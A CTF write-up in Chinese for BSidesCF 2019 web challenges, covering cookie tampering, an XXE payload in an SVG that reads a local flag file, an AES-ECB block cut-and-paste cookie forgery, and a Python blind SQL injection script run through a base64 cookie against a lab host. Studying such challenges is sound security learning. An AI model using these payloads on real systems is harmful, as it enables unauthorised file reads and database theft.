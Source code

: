 # BSidesCF 2019

## Kookie

... 用user cookie登上去后抓包吧cookie username改成admin就拿到flag了？


## Pick Tac Toe

还是Burp Suite抓包 修改move的参数，棋子可以强制落

## Svg Magic

Svg应该想到XXE的 就是这个路径...

需要好好积累

> /proc/self 表示当前进程目录

Exp

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

## Mixer

AES EBC 构造密文

根据提示is_admin是个整数

修改cookie:user后出现json串

猜测构造

```
b0c704f59962d7f398084dee08e152d1 {"first_name":"A
33a6d524a13d47f6a4dd63b5e72ee6eb 1.00000000000000
9ba3107987da6eeb016e3c48dbd7c0bf ","last_name":"E
a36daac88addff9f1ccfd106e564f2b8 ki","is_admin":0
1d440a6472a927fc8e26e13b39e31fc2 }



b0c704f59962d7f398084dee08e152d1 {"first_name":"A
33a6d524a13d47f6a4dd63b5e72ee6eb 1.00000000000000
9ba3107987da6eeb016e3c48dbd7c0bf ","last_name":"E
4be6c45f5785fddad8e6c21e6ecdd0ac kii","is_admin":
33a6d524a13d47f6a4dd63b5e72ee6eb 1.00000000000000
1d440a6472a927fc8e26e13b39e31fc2 }
```

## 参考链接

https://ctf-wiki.github.io/ctf-wiki/crypto/blockcipher/mode/ecb-zh/

### Sequel

Cookie里面可以注SQL

但是最后发现是SQLite,之前在MYSQL上能跑的脚本还跑不出来。。。

贴个脚本学习一下 利用Exist

```python
#coding=utf-8
import requests
import base64
import string
import sys

url="http://61dcd273-6f78-4432-a87c-a51cf39a5593.node3.buuoj.cn/sequels"
#sql="SELECT name FROM sqlite_master WHERE name "
#notes reviews reviews sqlite userinfo
sql = "SELECT username FROM userinfo WHERE name"
out = ""

while True:
    for letter in string.printable:
        tmp = out + letter
        if(tmp[0]=='n'):
            continue
        if(tmp[0]=='r'):
            continue
        if(tmp[0]=='s'):
            continue
        payload = r'{{"username":"\" OR EXISTS({0} LIKE \"{1}%\" limit 1) OR \"","password":"guest"}}'.format(sql,tmp)
                                                            #匹配以{1}开头的数据表
        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get(url, cookies={"1337_AUTH" : payload})
        if (tmp[-1]=="%") :
            exit(0)
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```